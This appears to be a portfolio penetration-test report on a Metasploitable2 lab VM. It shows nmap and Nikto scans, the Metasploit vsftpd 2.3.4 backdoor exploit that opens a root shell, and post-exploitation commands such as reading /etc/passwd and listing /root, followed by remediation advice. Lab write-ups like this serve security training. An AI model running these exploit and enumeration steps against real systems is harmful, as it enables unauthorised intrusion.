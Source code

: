 #Cybersecurity and Ethical Hacking Portfolio Report
1. Introduction
This report documents a penetration test conducted on a controlled, isolated environment (a vulnerable virtual machine, e.g., Metasploitable2) to demonstrate key cybersecurity and ethical hacking skills. The objective was to identify vulnerabilities, exploit them, and collect relevant information, simulating a real-world ethical hacking scenario.

2. Target Information
Target IP: Internal/Isolated IP (192.168.56.102)
Operating System: Linux (Based on Ubuntu)
Kernel Version: 2.6.24-16-server
Note: The environment was a purposely vulnerable machine used for educational purposes.

3. Tools Used
Nmap: Network scanning tool to discover open ports and services.
Nikto: Web vulnerability scanner for detecting web server misconfigurations.
Metasploit Framework: Exploit framework used to exploit vulnerabilities.
4. Vulnerability Discovery
Nmap Scan Results:
Nmap was used to scan for open ports and services running on the target machine.

Copy code
nmap -A 192.168.56.102

PORT     STATE SERVICE     VERSION
21/tcp   open  ftp         vsftpd 2.3.4
22/tcp   open  ssh         OpenSSH 4.7p1 Debian
23/tcp   open  telnet      Linux telnetd
80/tcp   open  http        Apache httpd 2.2.8 (Ubuntu)
3306/tcp open  mysql       MySQL 5.0.51a-3ubuntu5
Key Vulnerabilities:
FTP (vsftpd 2.3.4): Vulnerable to a backdoor vulnerability that could allow remote command execution.
HTTP (Apache 2.2.8): Outdated version with several potential misconfigurations and security issues.
MySQL (5.0.51a): Potential misconfigurations and outdated version, making it vulnerable to SQL injection attacks.
Nikto Web Vulnerability Scan:

Copy code
nikto -h http://192.168.56.102

+ Server: Apache/2.2.8 (Ubuntu)
+ /: HTTP TRACE method is active, vulnerable to Cross-Site Tracing (XST).
+ /: The anti-clickjacking X-Frame-Options header is not present.
+ Apache/2.2.8 is outdated, multiple security vulnerabilities exist.
Nikto discovered that the Apache web server was missing important security headers and had vulnerabilities due to its outdated version.

5. Exploitation
FTP Backdoor Exploit:
Using the Metasploit Framework, the backdoor vulnerability in the vsftpd 2.3.4 service was exploited, granting root access to the system.

Copy code
msf6 > use exploit/unix/ftp/vsftpd_234_backdoor
msf6 exploit(unix/ftp/vsftpd_234_backdoor) > set RHOSTS 192.168.56.102
msf6 exploit(unix/ftp/vsftpd_234_backdoor) > exploit

[*] Command shell session 1 opened (192.168.56.101:45395 -> 192.168.56.102:6200)
Post-Exploitation:
After gaining access, various post-exploitation techniques were used to gather information from the system.

Commands Executed:
Copy code
uname -a                # To gather system information
cat /etc/passwd         # To enumerate user accounts
ls -la /root            # To list files in the root directory
ps aux                  # To view running processes
6. Sensitive Data Collected
User Accounts: Found in the /etc/passwd file, including root, daemon, and several others.
Running Processes: Apache, MySQL, and VNC services were identified, confirming active services on the machine.
Root Directory Files: Important system files were identified, but no critical sensitive information was accessed or modified.
7. Conclusion
The penetration test revealed critical vulnerabilities in the target system:

vsftpd 2.3.4 FTP service: Exploitable backdoor vulnerability that allows root access.
Outdated Apache Web Server: Vulnerable to attacks due to missing security headers and outdated configurations.
MySQL: Version 5.0.51a has known vulnerabilities, possibly allowing for SQL injection attacks.
Recommendations:

Update all outdated services (FTP, Apache, MySQL) to their latest versions.
Disable unnecessary services (such as FTP and Telnet) or restrict access to them.
Configure the web server with proper security headers (X-Frame-Options, X-Content-Type-Options, etc.) and disable HTTP TRACE methods.
8. Final Notes
This report demonstrates the ability to perform ethical hacking in a controlled, isolated environment. The vulnerabilities found were in a purposely vulnerable machine, and no unauthorized systems were accessed. The findings and recommendations provided here would enhance the security posture of the target system if implemented.
